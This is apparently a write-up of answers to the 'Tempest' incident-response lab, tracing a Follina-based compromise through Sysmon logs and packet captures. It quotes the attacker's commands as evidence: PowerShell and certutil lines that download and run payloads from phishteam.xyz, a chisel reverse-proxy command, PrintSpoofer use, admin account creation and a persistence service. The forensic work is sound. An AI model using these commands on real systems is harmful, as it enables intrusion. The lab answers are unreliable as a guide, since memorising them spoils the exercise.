 # Tempest

### Preparation - Tools and Artifacts
![image](https://github.com/user-attachments/assets/e45d77a9-4506-45a5-b944-cebe3beb554b)<br />
- What is the SHA256 hash of the capture.pcapng file? `CB3A1E6ACFB246F256FBFEFDB6F494941AA30A5A7C3F5258C3E63CFA27A23DC6`
- What is the SHA256 hash of the sysmon.evtx file? `665DC3519C2C235188201B5A8594FEA205C3BCBC75193363B87D2837ACA3C91F`
- What is the SHA256 hash of the windows.evtx file? `D0279D5292BC5B25595115032820C978838678F4333B725998CFE9253E186D60`

### Initial Access - Malicious Document
- The user of this machine was compromised by a malicious document. What is the file name of the document?<br />
Move in `C:\Tools\EvtxECmd\` and run `.\EvtxECmd.exe -f 'C:\Users\user\Desktop\Incident Files\sysmon.evtx' --csv 'C:\Users\user\Desktop\Incident Files' --csvf sysmon.csv`. Then open the .csv file using Timeline Explorer and filter for `.doc`:<br />
![image](https://github.com/user-attachments/assets/df7282ec-684e-42ac-b9e1-c2d3a13e7256)<br />
`free_magicules.doc`
- What is the name of the compromised user and machine? `benimaru-TEMPEST`
- What is the PID of the Microsoft Word process that opened the malicious document? <br />
PID `496` used WINWORD.EXE to open the malicious doc. 
- Based on Sysmon logs, what is the IPv4 address resolved by the malicious domain used in the previous question?<br />
Filter by 496, and event ID = 22: <br />
![image](https://github.com/user-attachments/assets/42f50773-fd42-4619-a5b2-27f15ce6984f)<br />
`167.71.199.191`
- What is the base64 encoded string in the malicious payload executed by the document? <br />
Considering that the document executes a payload, it means that the parent PID of this process is 496.<br />
![image](https://github.com/user-attachments/assets/aab15431-87e5-418c-b04a-123583ad17b2)<br />
- What is the CVE number of the exploit used by the attacker to achieve a remote code execution? <br />
The payload is the following: `$app=[Environment]::GetFolderPath('ApplicationData');cd "$app\Microsoft\Windows\Start Menu\Programs\Startup"; iwr http://phishteam.xyz/02dcf07/update.zip -outfile update.zip; Expand-Archive .\update.zip -DestinationPath .; rm update.zip;` and it refers to<br />
`2022-30190`

### Initial Access - Stage 2 execution
- The malicious execution of the payload wrote a file on the system. What is the full target path of the payload?<br />
`C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`
- The implanted payload executes once the user logs into the machine. What is the executed command upon a successful login of the compromised user? `“C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe” -w hidden -noni certutil -urlcache -split -f ‘http://phishteam.xyz/02dcf07/first.exe' C:\Users\Public\Downloads\first.exe; C:\Users\Public\Downloads\first.exe`
- Based on Sysmon logs, what is the SHA256 hash of the malicious binary downloaded for stage 2 execution? `CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8`
- The stage 2 payload downloaded establishes a connection to a c2 server. What is the domain and port used by the attacker? `resolvecyber.xyz:80`

### Initial Access - Malicious Document Traffic
- What is the URL of the malicious payload embedded in the document? `http://phishteam.xyz/02dcf07/index.html`
- What is the encoding used by the attacker on the c2 connection? `base64`
- The malicious c2 binary sends a payload using a parameter that contains the executed command results. What is the parameter used by the binary? `q`
- The malicious c2 binary connects to a specific URL to get the command to be executed. What is the URL used by the binary? `/9ab62b5`
- What is the HTTP method used by the binary? `GET`
- Based on the user agent, what programming language was used by the attacker to compile the binary? `nim`

### Discovery - Internal Reconnaissance
- The attacker was able to discover a sensitive file inside the machine of the user. What is the password discovered on the aforementioned file? `infernotempest`
- The attacker then enumerated the list of listening ports inside the machine. What is the listening port that could provide a remote shell inside the machine? `5985`
- The attacker then established a reverse socks proxy to access the internal services hosted inside the machine. What is the command executed by the attacker to establish the connection? `C:\Users\benimaru\Downloads\ch.exe client 167.71.199.191:8080 R:socks`
- What is the SHA256 hash of the binary used by the attacker to establish the reverse socks proxy connection? `SHA256=8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451`
- What is the name of the tool used by the attacker based on the SHA256 hash? Provide the answer in lowercase. `chisel`
- The attacker then used the harvested credentials from the machine. Based on the succeeding process after the execution of the socks proxy, what service did the attacker use to authenticate?

### Privilege Escalation - Exploiting Privileges
- After discovering the privileges of the current user, the attacker then downloaded another binary to be used for privilege escalation. What is the name and the SHA256 hash of the binary? `spf.exe,8524FBC0D73E711E69D60C64F1F1B7BEF35C986705880643DD4D5E17779E586D`
- Based on the SHA256 hash of the binary, what is the name of the tool used? `PrintSpoofer`
- The tool exploits a specific privilege owned by the user. What is the name of the privilege? `SeImpersonatePrivilege`
- Then, the attacker executed the tool with another binary to establish a c2 connection. What is the name of the binary? `final.exe`
- The binary connects to a different port from the first c2 connection. What is the port used? `8080`

### Actions on Objective - Fully-owned Machine
- Upon achieving SYSTEM access, the attacker then created two users. What are the account names? `shion, shuna`
- Prior to the successful creation of the accounts, the attacker executed commands that failed in the creation attempt. What is the missing option that made the attempt fail? `/add`
- Based on windows event logs, the accounts were successfully created. What is the event ID that indicates the account creation activity? `4720`
- The attacker added one of the accounts in the local administrator's group. What is the command used by the attacker? `net localgroup administrators /add shion`
- Based on windows event logs, the account was successfully added to a sensitive group. What is the event ID that indicates the addition to a sensitive local group? `4732`
- After the account creation, the attacker executed a technique to establish persistent administrative access. What is the command executed by the attacker to achieve this? `C:\Windows\system32\sc.exe \\TEMPEST create TempestUpdate2 binpath= C:\ProgramData\final.exe start= auto`
